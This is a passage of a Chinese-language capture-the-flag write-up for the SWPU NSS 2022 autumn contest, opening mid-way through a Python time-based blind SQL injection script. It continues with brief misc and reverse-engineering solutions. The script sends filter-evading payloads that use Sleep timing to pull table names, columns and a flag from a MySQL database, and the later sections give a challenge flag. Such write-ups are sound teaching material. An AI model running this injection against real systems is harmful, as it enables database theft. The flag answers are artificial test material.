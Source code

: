 ```python
   #payload = '0\"/**/or/**/iF(Ascii(Substr((Select/**/Group_concat(table_name)/**/From/**/mysql.innodb_table_stats),%d,1))>%d,Sleep(1),0)#' % (i,mid)
   #print(payload)
   #payload = '0\"/**/or/**/If(Ascii(Substr((Select/**/Group_concat(column_name)/**/From/**/information_schema.columns/**/Where/**/table_schema=0x737770755F776C6C6D5F626F6F6C73716C),%d,1))>%d,Sleep(1),0)#'  % (i,mid)
   payload = '0\"/**/or/**/If(Ascii(Substr((Select/**/Group_concat(flag)/**/From/**/username),%d,1))>%d,Sleep(1),0)#'  % (i,mid)
   print(payload)
   params = {'username':payload}
   start_time = time.time() # 注入前的系统时间
   r = requests.post(url,data = params)
   end_time = time.time()  #  注入后的时间
   if end_time - start_time > 1:
    low = mid + 1
   else:
    high = mid
   mid = (low + high) // 2

  if mid == 32:
   break
  name = name + chr(mid) 
  print(name)

inject("http://175.24.172.136:30063/")
```

# misc

见出题人笔记：[SWPU NSS 2022 秋季招新赛 Misc 出题人笔记 - 问谛居](https://www.wd-ljt.com/post/1024/896.html)

# reverse

## 一道简单的签到

记事本/010Editor打开搜索 swpu 得到flag：`swpu{youfindthesecret!!}`

## xor

ida打开定位到核心代码段：

![在这里插入图片描述](https://img-blog.csdnimg.cn/14ea27ecf06b49019c7e9a2298b84dfa.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/47c17d59347a4e10afd3d7a5ab4e0a56.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/ef900b931c0b4f1e9785ff87889e3e3a.png)

py爆破计算
